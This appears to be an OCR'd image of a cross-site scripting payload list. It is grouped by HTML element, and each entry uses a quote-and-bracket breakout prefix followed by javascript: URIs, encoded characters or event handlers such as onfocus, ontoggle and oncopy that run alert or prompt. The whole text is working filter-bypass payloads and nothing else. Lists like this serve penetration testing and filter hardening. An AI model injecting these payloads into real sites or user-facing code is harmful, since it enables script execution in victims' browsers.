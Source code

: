 ```
cgonzalo"><a href="javascript:%ef%bb%bfalert(1)">

cgonzalo"><a href="javascript:&#xfeff;alert(1)">

cgonzalo"><a href=ja&NewLine;vascript:alert(1)>

cgonzalo"><a href=javascript:alert&lpar;&rpar;>

cgonzalo"><a href=javascript:x='%27-alert(1)-%27';>

cgonzalo"><a href=javascript:%61%6c%65%72%74%28%29>

cgonzalo"><a href=javascript:a\u006Cert``>

cgonzalo"><a href=javascript:\u0061\u006C\u0065\u0072\u0074``>

--- <input> ---

cgonzalo"><input autofocus onfocus=alert(1)>

cgonzalo"><input/onauxclick="[1].map(prompt)">

cgonzalo"><input type="text" onblur=alert(8)>

cgonzalo"><input type="color" onblur=alert(8)>

cgonzalo"><input type="color" onblur=alert(8)//

cgonzalo"><input type="text" oncopy=alert(8) value="Try to copy this text"> (Copiar el texto para ejecutar JS)

cgonzalo"><input type="text" name="txt" value="Insert your name" onchange=alert(8)>

cgonzalo"><input type="month" onchange=alert(8)>

cgonzalo"><input type="datetime-local" /onchange=alert(8)//

cgonzalo"><input type="datetime-local" /onchange=alert(8)>

--- <select> ---

cgonzalo"><select autofocus onfocus=alert(1)>

cgonzalo"><select type="color" onblur=alert(8)%22 </select>

cgonzalo"><select type="color" onblur=alert(8)//

--- <textarea> ---

cgonzalo"><textarea autofocus onfocus=alert(1)>

--- <keygen> ---

cgonzalo"><keygen autofocus onfocus=alert(1)>

--- <details> ---

cgonzalo"><details/open/ontoggle="alert`1`">

cgonzalo"><details/open/ontoggle=window.alert`xss`>

--- <audio> ---

```
